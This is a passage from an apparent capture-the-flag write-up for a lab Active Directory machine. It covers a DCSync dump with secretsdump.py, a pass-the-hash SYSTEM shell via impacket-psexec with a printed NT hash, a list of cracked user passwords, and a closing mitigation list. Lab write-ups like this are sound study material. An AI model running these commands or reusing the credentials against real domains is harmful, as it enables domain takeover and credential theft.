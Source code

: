 ![image.png](image%2018.png)

## DCSync as ethan

Now that we have credentials as ethan I can perform DCSync attack as of information received from BloodHound.

![image.png](image%2019.png)

```bash
secretsdump.py -just-dc administrator.htb/ethan@$IP
```

![image.png](image%2020.png)

## Shell as NT Authority System

```bash
impacket-psexec Administrator@$IP -hashes :3dc553ce4b9fd20bd016e098d2d2fd2e
```

![image.png](image%2021.png)

## Credentials

```powershell
Olivia : ichliebedich
Michael : newP@ssword2022
Benjamin : newP@ssword2023
emily : UXLCI5iETUsIBoFVTj8yQFKoHjXmb
emma : WwANQWnmJnGV07WQN8bMS7FMAbjNur
ethan : limpbizkit
```

## Mitigation

- Avoid assigning **GenericAll** and **GenericWrite** permissions on user objects.
- Regularly audit **Active Directory ACLs** and prune over-permissive rights.
- Monitor for **password spray** and **Kerberoasting** activity using SIEM tools.
- Encrypt sensitive backup files with strong, unique passwords.
- Restrict **DCSync rights** only to essential accounts like Domain Admins.
